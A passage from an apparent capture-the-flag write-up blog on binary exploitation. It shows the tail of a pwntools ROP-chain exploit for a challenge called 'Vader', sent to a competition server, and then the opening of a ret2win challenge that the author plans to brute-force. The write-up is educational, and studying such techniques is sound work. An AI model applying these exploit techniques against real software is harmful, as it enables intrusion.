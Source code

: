 vader =         p64(0x0040146b)

payload = offset
payload += rdi + dark                   # POP RDI, STORING "DARK"
payload += rsi_r15 + side + r15_garbage # POP RSI & R15, STORE "S1D3" + GARBAGE
payload += rdx + of                     # POP RDX, STORING "OF"
payload += rcx_r8 + the + force         # POP RCX & R8, STORING "TH3" + "FORC3"
payload += vader                        # ADDRESS OF VADER

p = remote("0.cloud.chals.io", 20712)
p.sendline(payload)
log.success(p.recvallS())
p.close()
{% endccb %}

I don't usually do this, but here's a clip of me initially solving the challenge by running the above script:

<br>

{% youtube rvMORfSC2CU %}

<br>

This is considered a "simple" challenge for those experienced with the field of return-oriented programming within pwn/binary challenges. However, I had none prior to this competition, so <kbd>Vader</kbd> was one of the most time-consuming and annoying challenges to work with. Yet, it was probably the most satisfying solve throughout the entire competition, and it was my first time utilizing gadgets and building a ROP chain. I hope you enjoyed!

---

{% challenge %}
title: Warmup to the Dark Side
level: h2
solvers: enscribe
authors: v10l3nt
description: |
        Once you start down the dark path, forever will it dominate your destiny.  (And yes, the binary isn't included)  
        `nc 0.cloud.chals.io 30096`
points: 100
genre: pwn
{% endchallenge %}

Let's run that `netcat` link to see what's going on:

{% ccb terminal:true html:true wrapped:true %}
<span class="meta prompt_">$ </span>nc 0.cloud.chals.io 30096  
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c  
Jedi Mind tricks dont work on me >>>
{% endccb %}

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.
